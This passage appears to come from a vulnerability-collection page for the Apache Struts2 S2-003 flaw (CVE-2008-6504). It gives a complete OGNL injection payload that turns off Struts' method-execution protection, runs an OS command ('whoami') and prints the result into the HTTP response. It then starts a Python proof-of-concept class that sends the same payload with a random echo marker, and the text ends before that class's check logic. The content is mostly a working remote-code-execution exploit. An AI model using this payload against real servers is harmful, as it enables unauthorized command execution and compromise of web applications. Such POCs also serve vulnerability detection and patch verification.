 ```java
('\u0023context[\'xwork.MethodAccessor.denyMethodExecution\']\u003dfalse')(bla)(bla)&('\u0023_memberAccess.excludeProperties\u003d@java.util.Collections@EMPTY_SET')(kxlzx)(kxlzx)&('\u0023mycmd\u003d\'whoami\'')(bla)(bla)&('\u0023myret\u003d@java.lang.Runtime@getRuntime().exec(\u0023mycmd)')(bla)(bla)&(A)(('\u0023mydat\u003dnew\40java.io.DataInputStream(\u0023myret.getInputStream())')(bla))&(B)(('\u0023myres\u003dnew\40byte[51020]')(bla))&(C)(('\u0023mydat.readFully(\u0023myres)')(bla))&(D)(('\u0023mystr\u003dnew\40java.lang.String(\u0023myres)')(bla))&('\u0023myout\u003d@org.apache.struts2.ServletActionContext@getResponse()')(bla)(bla)&(E)(('\u0023myout.getWriter().println(\u0023mystr)')(bla))
```

### POC

```python
#!/usr/bin/env python3

'''
name: Struts2 S2-003漏洞,又名CVE-2008-6504漏洞
description: Struts2 S2-003漏洞可执行任意命令
'''

import random
import string
import requests

class S2_003_BaseVerify:
    def __init__(self, url):
        self.url = url 
        self.headers = {
            'User-Agent': "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/45.0.2454.85 Safari/537.36 115Browser/6.0.3",
        }
        self.capta = self.get_capta() 
        self.check_payload = r'''?('\u0023context[\'xwork.MethodAccessor.denyMethodExecution\']\u003dfalse')(bla)(bla)&('\u0023_memberAccess.excludeProperties\u003d@java.util.Collections@EMPTY_SET')(kxlzx)(kxlzx)&('\u0023mycmd\u003d\'{0}\'')(bla)(bla)&('\u0023myret\u003d@java.lang.Runtime@getRuntime().exec(\u0023mycmd)')(bla)(bla)&(A)(('\u0023mydat\u003dnew\40java.io.DataInputStream(\u0023myret.getInputStream())')(bla))&(B)(('\u0023myres\u003dnew\40byte[51020]')(bla))&(C)(('\u0023mydat.readFully(\u0023myres)')(bla))&(D)(('\u0023mystr\u003dnew\40java.lang.String(\u0023myres)')(bla))&('\u0023myout\u003d@org.apache.struts2.ServletActionContext@getResponse()')(bla)(bla)&(E)(('\u0023myout.getWriter().println(\u0023mystr)')(bla))'''.format('echo\\n' + self.capta)

    def get_capta(self):
        """
        获取一个随机字符串

        :param:

        :return str capta: 生成的字符串
        """
        capta = ''
        words = ''.join((string.ascii_letters,string.digits))
        for i in range(8):
            capta = capta + random.choice(words)
        return capta                 

    def run(self):
        """
        检测是否存在漏洞

        :param:

        :return str True or False
        """
```